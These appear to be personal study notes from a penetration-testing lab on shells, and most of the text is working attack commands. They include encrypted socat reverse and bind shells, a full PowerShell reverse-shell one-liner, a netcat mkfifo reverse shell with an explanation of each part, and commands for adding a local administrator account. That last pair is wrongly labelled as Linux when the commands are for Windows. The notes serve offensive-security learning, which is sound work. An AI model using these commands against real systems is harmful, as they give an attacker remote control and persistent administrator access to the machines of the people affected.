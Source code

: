 We then need to merge the two created files into a single `.pem` file:
`cat shell.key shell.crt > shell.pem`
Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
To connect back, we would use:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:
Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  
Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

>[!Exmaple]
>- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
>`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`
>- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
>`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

with net cat we can set the connection to execute some sort of program like a bash script so when the remote machine connect to the listing port it will execute a bash terminal 

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.  

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

>[!pip file]
>- `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
>	**`mkfifo /tmp/f`**
>	- Creates a named pipe (FIFO) at `/tmp/f
>	- This acts as a communication channel between processes
>	**`nc <LOCAL-IP> <PORT> < /tmp/f`**
>	- Netcat connects to the specified IP and port
> 	- Takes input from the named pipe `/tmp/f`
> 	- Sends that input over the network connection
> 	**`/bin/sh >/tmp/f 2>&1`**
> 	- Starts a shell (`/bin/sh`)
> 	- Redirects stdout to the named pipe (`>/tmp/f`)
> 	 - Redirects stderr to stdout (`2>&1`), so errors also go to the pipe
> 	 **`rm /tmp/f`**
> 	 - Cleans up by removing the named pipe file

the syntax for adding a user to the admin group under linux

`net user <username> <password> /add`
`net localgroup administrators <username> /add`
